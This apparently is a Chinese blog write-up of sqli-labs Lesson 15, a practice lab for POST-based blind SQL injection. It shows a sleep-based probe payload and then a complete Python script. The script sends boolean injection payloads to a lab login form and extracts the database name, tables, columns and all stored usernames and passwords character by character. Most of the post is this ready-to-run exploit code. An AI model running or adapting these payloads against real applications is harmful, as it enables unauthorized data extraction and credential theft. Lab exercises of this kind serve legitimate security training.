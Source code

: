 ```yaml
---
title: sqli-labs lession 15 POST单引号布尔型时间盲注
date: 2018-09-27 21:11:20
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 15 POST单引号布尔型时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-15/1.png)

## 注入 ##

尝试各种姿势都不行,应该要用时间盲注了

### 判断类型 ###

`admin' and if(1,sleep(60),null)#`

测试出类型为字符型

![2](/img/sql/Lesson-15/2.png)

### Payload ###

构造好了之后就和Lesson-9一样了。

{% post_link sqli-labs-lession-9-GET单引号基于时间盲注 查看Lesson-9%}

### 脚本 ###

拿之前写的垃圾脚本改一改,跑下。(有空了把脚本改进下。)

	import requests
	url = 'http://10.60.250.66/sqlilabs/Less-15/'
	uname = ""
	db_name = ''#security'#数据库名
	db_len = 0#8 #当前数据库长度
	table_num = 0 #4#数据库表数目
	table_names = '' #数据表名
	table_lenlist = []#[6, 8, 7, 5] #数据表名长度列表
	table_namelist = []#['emails', 'referers', 'uagents', 'users'] #数据表名列表
	column_numlist = []#[2, 3, 4, 3] #数据表列数
	column_lenlist = []#[2, 8, 8] #列名长度列表
	column_namelist = []#['id', 'username', 'password'] #列名列表
	dump_numlist = []#[13, 13, 13] #字段数量列表
	db_payload = ''
	i = j = k = l = m = 0
	
	left = 97
	right = 123
	print("获取数据库长度")
	for i in range(1, 32):
	    uname = "admin'  and length(database())=%d # " %i
	    data = {'uname': uname, 'passwd': 'admin'}
	    res = requests.post(url, data)
	    if "flag.jpg" in res.text:
	        print("[+]数据库长度为:" + str(i) + "位")
	        break
	db_len = i
	
	print("获取数据库名")
	for i in range(1, db_len+1):
	    for j in range(left, right):
	        uname = "admin' and ('%s' = mid(database(),1,%d)) # " % (db_name+chr(j), i)
	        # print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        # print(res.text)
	        if "flag.jpg" in res.text:
	            db_name += chr(j)
	            print("[-]当前猜解:" + db_name)
	            break
	print("[+]当前数据库:" + db_name)
	
	#数据库中表数目
	print("获取表数目....")
	for i in range(1,100):
	    uname = "admin' and %d=(select count(table_name) from information_schema.tables where table_schema='%s') # " % (i, db_name)
	    #print(uname)
	    data = {'uname': uname, 'passwd': 'admin'}
	    res = requests.post(url, data)
	    if "flag.jpg" in res.text:
	        table_num = i
	        break
	print("[+]数据库表数目:", table_num)
	
	#数据库中表长度
	print("获取表名长度....")
	for i in range(table_num):
	    table_len = 0 #表名长度
	    #获取数据表长度
	    for j in range(1, 21):
	        uname = "admin' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1)) # " % (db_name, i, j)
	        data = {'uname': uname, 'passwd': 'admin'}
	        #print(uname)
	        res = requests.post(url, data)
	        if "slap.jpg" in res.text:
	            table_len = j - 1
	            table_lenlist.append(table_len)
	            break
	print('[+]表名长度：', table_lenlist)
	
	#数据库表名
	print("获取表名....")
	for i in range(table_num):
	    # 获取数据表名
	    table_names = ''
	    for j in range(1, table_lenlist[i]+1):
	        for k in range(left, right):
	            uname = "admin' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1))=%d # " % (db_name, i, j, k)
	            #print(uname)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "flag.jpg" in res.text:
	                table_names += chr(k)
	                print("[-]当前表名猜解：", table_names)
	                break
	    table_namelist.append(table_names)
	print("[+]表名:\n", table_namelist)
	
	#数据列数
	print("获取列数...")
	for i in range(table_num):
	    #print(i)
	    column_num = 0
	    for j in range(1, 21):
	        uname = "admin' and %d=(select count(column_name) from information_schema.columns where table_name='%s') # " % (j, table_namelist[i])
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" in res.text:
	            column_num = j
	            #print("[+]"+table_namelist[i]+"表列数:"+ str(column_num))
	            column_numlist.append(column_num)
	            break
	print("[+]数据表列数\n", column_numlist)
	
	#猜解列长度
	print("获取列名长度....")
	for i in range(column_numlist[3]):
	    column_len = 0 #列名长度
	     #获取列长度
	    for j in range(1, 21):
	        uname = "admin' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1)) # " % (i, j)
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" not in res.text:
	            column_len = j - 1
	            break
	    column_lenlist.append(column_len)
	print('[+]user列名长度：', column_lenlist)
	
	#猜解列名
	print("猜解列名....")
	for i in range(column_numlist[3]):
	    column_names = ''
	    for j in range(1, column_lenlist[i]+1):
	        for k in range(left, right):
	            uname = "admin' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1))=%d # " % (
	                i, j, k)
	            #print(uname)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "flag.jpg" in res.text:
	                column_names += chr(k)
	                print("[-]当前列名猜解：", column_names)
	                break
	    column_namelist.append(column_names)
	print("[+]users列名:\n", column_namelist)
	
	#爆破字段
	print('获取字段：')
	for column in column_namelist[0:]:
	    #print(column, '：')
	    dump_num = 0
	    #爆破各个字段数量
	    for i in range(30):
	        uname = "admin' and %d=(select count(%s) from %s.%s) # " % (i, column, db_name, table_namelist[-1])
	        #print(uname)
	        data = {'uname': uname, 'passwd': 'admin'}
	        res = requests.post(url, data)
	        if "flag.jpg" in res.text:
	            dump_num = i
	            #print(i)
	            break
	    dump_numlist.append(dump_num)
	print("[+]字段数：\n", dump_numlist)
	
	print('获取字段：')
	for i in range(len(dump_numlist)):
	    print(column_namelist[i]+":")
	    #####字段个数####
	    for j in range(dump_numlist[i]):
	        dump_len = 0
	        dump_name = ''
	        ### 字段长度 ####
	        for k in range(1, 21):
	            uname = "admin' and ascii(substr((select %s from %s.%s limit %d,1),%d,1)) # " % (
	                column_namelist[i], db_name, table_namelist[-1], j, k)
	            data = {'uname': uname, 'passwd': 'admin'}
	            res = requests.post(url, data)
	            if "slap.jpg" in res.text:
	                dump_len = k - 1
	                break
	        #print(dump_len)
	        for l in range(1, dump_len + 1):
	            for m in range(32, 127):
	                uname = "admin' and ascii(substr((select %s from %s.%s limit %d,1),%d,1))=%d # "  % (
	                    column_namelist[i], db_name, table_namelist[-1], j, l, m)
	                data = {'uname': uname, 'passwd': 'admin'}
	                #print(uname+chr(m))
	                res = requests.post(url, data)
	                if "flag.jpg" in res.text:
	                    dump_name += chr(m)
	                    break
	        print('[+]', dump_name)


​	
​	
​	
​	
​	
​	
